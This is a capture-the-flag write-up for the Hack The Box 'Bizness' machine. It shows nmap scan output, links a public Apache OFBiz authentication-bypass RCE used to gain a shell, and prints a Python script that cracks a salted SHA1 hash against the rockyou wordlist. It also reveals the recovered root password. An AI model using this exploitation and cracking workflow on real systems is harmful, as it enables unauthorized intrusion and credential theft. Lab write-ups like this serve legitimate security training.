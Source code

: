 # HTB-bizness

### Write-up

Started with nmap and noted open ports, nothing really popped out.

```bash
# Nmap 7.94SVN scan initiated Sun Jan  7 13:35:32 2024 as: nmap -Pn -A -sC -sT -p- -T4 -oN nmap.txt 10.129.176.156
Warning: 10.129.176.156 giving up on port because retransmission cap hit (6).
Nmap scan report for bizness.htb (10.129.176.156)
Host is up (0.11s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open     http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open     ssl/http   nginx 1.18.0
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-server-header: nginx/1.18.0
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
4879/tcp  filtered wsdl-event
15044/tcp filtered unknown
35317/tcp open     tcpwrapped
38485/tcp filtered unknown
58618/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  7 13:49:55 2024 -- 1 IP address (1 host up) scanned in 863.01 seconds
```

Did a recon of the website, and saw it was running 'Apache OFBiz" as stated on the logon page

<figure><img src=".gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

Decided to look for a vulnerability, and found an [RCE ](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)that was brand new.

<figure><img src=".gitbook/assets/image (177).png" alt="" width="563"><figcaption></figcaption></figure>

Decided to give it a shot, and after some trial and error, I got a shell.

<figure><img src=".gitbook/assets/image (178).png" alt="" width="563"><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (179).png" alt="" width="557"><figcaption></figcaption></figure>

Not long after, I found the user.txt flag

<figure><img src=".gitbook/assets/image (180).png" alt=""><figcaption></figcaption></figure>

Moving on, I ran Winpeas, but didn't find anything that stuck out. A manual search revealed a file called 'AdminUserLogonData.xml'.

<figure><img src=".gitbook/assets/image (181).png" alt=""><figcaption></figcaption></figure>

This gave me a salted password.

<figure><img src=".gitbook/assets/image (182).png" alt=""><figcaption></figcaption></figure>

To decrypt it, I found the following script online.

```python
import hashlib
import base64
import os
def cryptBytes(hash_type, salt, value):
    if not hash_type:
        hash_type = "SHA"
    if not salt:
        salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
    hash_obj = hashlib.new(hash_type)
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value)
    hashed_bytes = hash_obj.digest()
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
    return result
def getCryptedBytes(hash_type, salt, value):
    try:
        hash_obj = hashlib.new(hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
    except hashlib.NoSuchAlgorithmException as e:
        raise Exception(f"Error while computing hash of type {hash_type}: {e}")
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/usr/share/wordlists/rockyou.txt'
with open(wordlist,'r',encoding='latin-1') as password_list:
    for password in password_list:
        value = password.strip()
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))
        # print(hashed_password)
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
```

And success, the password is

```
monkeybizness
```

<figure><img src=".gitbook/assets/image (183).png" alt=""><figcaption></figcaption></figure>

Now in my crappy shell, I switched my user to 'root' and got the root flag.

<figure><img src=".gitbook/assets/image (184).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (185).png" alt=""><figcaption></figcaption></figure>
